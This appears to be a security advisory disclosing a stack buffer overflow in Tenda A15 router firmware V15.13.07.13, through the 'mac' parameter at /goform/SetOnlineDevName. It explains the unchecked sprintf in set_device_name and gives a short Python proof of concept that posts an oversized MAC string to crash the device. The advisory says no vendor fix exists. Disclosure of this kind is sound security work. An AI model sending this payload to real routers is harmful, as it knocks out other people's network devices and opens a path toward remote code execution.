


# Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "mac" parameter at /goform/SetOnlineDevName.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In formSetDeviceName function, get the mac parameter via websGetVar and pass it to the second parameter of set_device_name



In the set_device_name function, the dev_mac variable is only verified for existence and is used in the sprintf function without any length checks, which could lead to an attacker using this buffer overflow to perform a DOS attack and an RCE attack.



## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
    "mac": '9c:fc:e8:da:9c:5b'*0x500,
    "devName": 'devname1'
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Trigger details

See video content

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
